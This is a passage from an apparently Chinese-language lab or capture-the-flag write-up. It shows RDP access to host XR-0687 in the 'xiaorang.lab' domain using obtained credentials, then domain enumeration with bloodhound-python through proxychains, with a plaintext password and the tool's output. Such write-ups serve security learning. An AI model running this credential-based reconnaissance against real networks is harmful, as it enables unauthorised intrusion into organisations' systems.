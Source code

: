 使用 `huachunmei` 的凭据登录 `XIAORANG\XR-0687 - 172.22.15.35`

![img](img/image_20240731-163157.png)

直接通过 RDP 看不出有用的信息，启动 `Bloodhound`

首先先收集信息

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
INFO: Found AD domain: xiaorang.lab
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (xr-dc01.xiaorang.lab:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 37 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: XR-CA.xiaorang.lab
INFO: Querying computer: XR-0687.xiaorang.lab
INFO: Querying computer: XR-DC01.xiaorang.lab
INFO: Done in 00M 22S
INFO: Compressing output into 20240726164051_bloodhound.zip
```
